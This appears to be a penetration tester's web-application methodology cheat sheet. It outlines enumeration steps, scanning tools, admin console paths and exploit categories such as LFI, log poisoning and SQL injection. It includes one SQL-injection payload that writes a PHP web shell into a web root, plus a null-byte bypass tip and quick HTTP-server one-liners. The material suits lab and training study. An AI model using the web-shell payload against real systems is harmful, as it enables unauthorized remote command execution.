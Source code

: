 # Web App Methology
## Web App Enumeration
### 1. Enum Technology
  - Programming language and frameworks
  - Web Server software
  - Database software
  - Server operating system
### 2. Inspec URLs
### 3. Inspect Page Content
  - *Ctrl + Shift + K*
  - *Ctrl + U*
### 4. View Response Headers
  - *Ctrl + Shift + K* > Network
  - BurpSuite
### 5. Inspect Sitemaps
  - *robots.txt*
### 6. Locate Administration Consoles
Two common exaples are **/manager/html** from Tomcat and **/phpmyadmin** from phpMyAdmin
### 7. Throw Web App Assessment Tools
  - Dirb / Dirbuster
  - Burp Suite
  - Nikto
### 8. Exploit
  - XSS
  - Direcroty Travesal Vulnerabilities
  - Local File Inclusion (Execute uploaded scripts)
  - Remote File Inclusion (Execute remote scripts)
  - LFI Code Execution
  - Log Poisoning
  - PHP Wrappers
  - SQL Injection
  - SQLI to RCE
    ```bash
    http://10.10.10.10./debug.php?id=1 union select 1, 2, "<?php echo shell_exec(?_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/shell.php'
    ```
### 9. Post-Exploitation
  - **/usr/share/webshells**
### *Notes*
- Older versions of PHP have a vulnerability in which a null byte \(\%00\) will terminate any string. This trick can be used to bypass file extensions.
- PHP HTTP Server
  ```bash
  php -S 0.0.0.0:8080
  ```
- Ruby HTTP Server
  ```bash
  ruby -run -e httpd . -p 9000
  ```
- BusyBox HTTP Server
  ```bash
  busybox httpd -f -p 10000
  ```
